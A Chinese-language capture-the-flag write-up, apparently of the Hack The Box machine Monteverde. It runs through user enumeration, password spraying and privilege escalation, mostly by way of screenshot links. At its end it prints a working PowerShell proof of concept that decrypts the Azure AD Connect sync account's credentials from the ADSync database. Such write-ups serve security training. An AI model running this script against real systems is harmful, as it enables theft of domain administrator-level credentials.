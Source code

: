 +++
ShowToc = true
TocOpen = true
title = '0X025 monteverde'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE4426b40786740c7305d93ea06e382c93image.png)

![](/htb_img/WEBRESOURCE0370475fd82030fafde08a613842492dimage.png)

![](/htb_img/WEBRESOURCE232cda4a25eed1d4e8da0fa0dc53bfb1image.png)

# 获取立足点

值得关注的端口：445、389、5985

445没有：

![](/htb_img/WEBRESOURCE7afb4bd7f5c08207390677f10b9e8063image.png)

389可以列出用户名：

但是AS-REP Roasting失败：

![](/htb_img/WEBRESOURCEf114d779bca9d8081ca239ac0ad179c9image.png)

那就只能破解试试了：

发现没有锁定策略：

![](/htb_img/WEBRESOURCE49b27ff43cafb6269200e46970c1cdfeimage.png)

经过尝试：

账户名即使密码：

![](/htb_img/WEBRESOURCE105e0d41c91897f7ce7d0554fd87e44aimage.png)

![](/htb_img/WEBRESOURCEe709208fcb6e72c01b8a4d7635afbb5eimage.png)

发现内容：

![](/htb_img/WEBRESOURCEdc8de8f23b84b70e406352ad856bbb41image.png)

密码喷洒：

![](/htb_img/WEBRESOURCE7f024ac9675ca06bcd8eba13e1a56e8eimage.png)

拿到flag:

![](/htb_img/WEBRESOURCE9ee4435ce06c2160a6922134155a562eimage.png)

# 提权

bloodhound

简单解读一下，就是本地提权，或者寻找其他路径：

![](/htb_img/WEBRESOURCEe4cf0162cd4e7cf6da9b86703cce2961image.png)

winpeass:

感觉这个有机会，应为和这个组的权限好像有关系：

![](/htb_img/WEBRESOURCE65d209b7e589d06fcd76176d689c1a16image.png)

看一下软件安装情况，可以发现这些软件：

![](/htb_img/WEBRESOURCEe30dd0a310c0f7457d77fbae05e3a93dimage.png)

后面的内容属实不会了，无奈看了wp:

最后修改的poc:

```
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name ='Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```

![](/htb_img/WEBRESOURCEb5d2e0593c0820d808addcfcde8e712cimage.png)

![](/htb_img/WEBRESOURCEb805b08f3067c176e31022a18266eab4image.png)